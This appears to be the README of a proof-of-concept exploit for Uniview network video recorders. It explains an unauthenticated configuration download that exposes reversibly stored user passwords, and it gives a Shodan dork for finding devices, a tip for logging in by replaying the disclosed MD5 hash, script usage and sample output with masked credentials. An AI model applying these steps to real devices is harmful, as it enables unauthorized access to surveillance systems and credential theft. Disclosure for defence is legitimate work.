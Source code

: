 # Uniview NVR remote passwords disclosure

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
- NVR304-16E - Software Version B3118P26C00510
- NVR301-08-P8 - Software Version B3218P26C00512
- version B3220P11
- version B3219P22

 Other versions may also be affected

> Sodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

	root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5
	Uniview NVR remote passwords disclosure!
	Author: B1t0n
	
	[+] Getting model name and software version...
		Model: NVR301-08-P8
 		Software Version: B3218P26C00512

 	[+] Getting configuration file...
 	[+] Number of users found: 4

 	[+] Extracting users' hashes and decoding reversible strings:

 	User 	|	 Hash 	|	 Password
 	_________________________________________________
 	admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 	default 	|	 	|	||||||||||||||||||||
 	HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 	test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  	*Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
